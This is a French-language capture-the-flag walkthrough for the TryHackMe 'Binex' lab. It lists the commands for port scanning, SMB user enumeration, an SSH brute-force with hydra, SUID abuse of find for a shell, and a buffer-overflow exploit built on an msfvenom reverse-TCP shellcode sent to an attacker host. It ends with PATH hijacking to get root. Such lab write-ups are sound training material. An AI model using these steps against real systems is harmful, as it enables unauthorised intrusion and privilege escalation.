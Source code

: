 # TryHackMe – Binex

**Objectif** : exploiter la machine **Binex**  de TryHackMe pour récupérer les flags utilisateur et root, en passant par plusieurs techniques d'escalade.

---

## 1. Reconnaissance initiale

1. **Scan des ports** :

   ```bash
   nmap -Pn -p- $IP_CIBLE
   ```

   Ports ouverts : 22 (SSH), 139 & 445 (Samba).

2. **Scan approfondi** :

   ```bash
   sudo nmap -sV -sC -p 22,139,445 $IP_CIBLE
   ```

   - SSH : OpenSSH 7.6p1 Ubuntu (protocol 2.0)
   - Samba : smbd 3.x–4.x & 4.7.6-Ubuntu (workgroup -> WORKGROUP)
   - Message signing SMB activé mais non requis (risqué)

---

## 2. Énumération Samba & utilisateurs

1. **Listing des partages** :

   ```bash
   smbclient -L $IP_CIBLE -N
   ```

   Partages visibles : `print$`, `IPC$` (pas d'accès invité).

2. **RID cycling** avec `enum4linux` :

   ```bash
   ./enum4linux -a $IP_CIBLE
   ```

   > Utilisateurs découverts : kel, des, tryhackme, noentry.

---

## 3. Bruteforce SSH (user tryhackme)

1. **Hydra + rockyou.txt** :

   ```bash
   hydra -l tryhackme -P /usr/share/wordlists/rockyou.txt ssh://$IP_CIBLE
   ```

   Mot de passe trouvé pour `tryhackme` !

2. **Connexion SSH** :

   ```bash
   ssh tryhackme@$IP_CIBLE
   ```

---

## 4. Escalade SUID → utilisateur des

1. **Recherche SUID** :

   ```bash
   find / -type f -perm -u=s 2>/dev/null
   ```

   Binaire notable : `/usr/bin/find` (SUID, propriétaire : `des`).

2. **Shell en tant que des** :

   ```bash
   /usr/bin/find . -exec /bin/sh -p \; -quit
   ```

   ```bash
   id  # uid=1001(des)
   cat /home/des/flag.txt
   ```

---

## 5. Buffer overflow → utilisateur kel

1. **Génération du pattern** :

   ```bash
   pattern_create.rb -l 2000 > pattern.txt # (J'ai suivi l'indice donné au début de la Task 3)
   ```

   Transfert :

   ```bash
   scp pattern.txt des@$IP_CIBLE:/home/des/
   ```

2. **Trouver l'offset** avec GDB :

   ```bash
   gdb /home/des/bof
   run < pattern.txt
   info reg  # RBP=0x4134754133754132 → offset 608 + 8 = 616
   ```

3. **Choisir l'adresse de retour** :

   ```bash
   run < <(python3 -c "print('A'*800)")
   x/100x $rsp
   ```

   Adresse retenue : `0x7fffffffe32c`.

4. **Shellcode** :

   ```bash
   msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP_kali> LPORT=4444 -b '\x00' -f python
   ```

5. **Exploit** :`exploit.py`

   ```python
   from struct import pack
   payload_len = 616
   nop = b"\x90"*300
   rip = 0x7fffffffe32c
   buf = b"..."  # shellcode
   padding = b"A"*(payload_len - len(nop) - len(buf))
   payload = nop + buf + padding + pack("<Q", rip)
   print(payload)
   ```

6. **Exécution** :

   ```bash
   python3 exploit.py > exploit.bin
   nc -lvnp 4444 &
   ./bof < exploit.bin
   ```

   Shell `kel` obtenu, puis :

   ```bash
   cat /home/kel/flag.txt
   ```

---

## 6. Escalade finale : PATH Hijacking → root

1. **Analyse du binaire** :

   ```c
   // exe.c
   setuid(0); 
   setgid(0);
   system("ps");
   ```

2. Création d'un faux \*\*`` :

   ```bash
   export PATH=/tmp:$PATH
   echo "/bin/bash -p" > /tmp/ps
   chmod +x /tmp/ps
   ./exe
   ```

   Vous êtes root → `cat /root/root.txt`

---

## Conclusion

- **Étapes clés** : SSH → SUID → buffer overflow → PATH hijack
- **Bonnes pratiques** : vérifier SUID, connaître gtfobins, maîtriser buffer overflow, profiter des failles PATH.

---

**Auteur :** Saad Idrissi

